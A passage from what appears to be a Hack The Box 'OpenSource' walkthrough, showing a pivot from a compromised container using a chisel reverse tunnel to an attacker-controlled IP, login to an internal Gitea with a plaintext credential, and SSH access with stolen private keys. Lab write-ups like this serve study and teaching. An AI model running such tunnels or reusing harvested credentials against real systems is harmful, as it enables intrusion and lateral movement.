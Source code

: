 ````
$ cat /proc/cpuinfo
...
processor       : 1
vendor_id       : AuthenticAMD
cpu family      : 23
model           : 49
model name      : AMD EPYC 7302P 16-Core Processor
...
````

On the attacking machine we start a chisel server:

````
$ chisel server -p 8000 --reverse
````

The `--reverse`switch, as 0xdf points out on his website:

> tells the server that I want clients connecting in to be allowed to define reverse tunnels. This means clients connecting in can open listening ports on my kali box. That is what I want here, but be aware of what you’re allowed it to do.

We also move chisel on the target and start the client:

````
/ # chmod +x chisel

/ # chisel client 10.10.16.37 R:3000:172.17.0.1:3000
````

After that we are able to access the Gitea web application listeing on port 3000 of target machine by visiting `localhost:3000`on our attacking machine:

![HTB_webAppChisel](/img/htb/opensource/webApp_chisel.png)

Login is successfull with the previously discovered credentials `dev01:Soulless_Developer#2022`.    
Once inside there is a repository named `home-backup`that contains SSH private keys for `dev01` user.

With that we can finally access the target machine via SSH as `dev01`:

````
$ ssh -i id_rsa.key dev01@10.10.11.164
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-176-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Jul  6 14:58:51 UTC 2022

  System load:  0.04              Processes:              217
  Usage of /:   76.4% of 3.48GB   Users logged in:        0
  Memory usage: 25%               IP address for eth0:    10.10.11.164
  Swap usage:   0%                IP address for docker0: 172.17.0.1


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

16 updates can be applied immediately.
9 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

````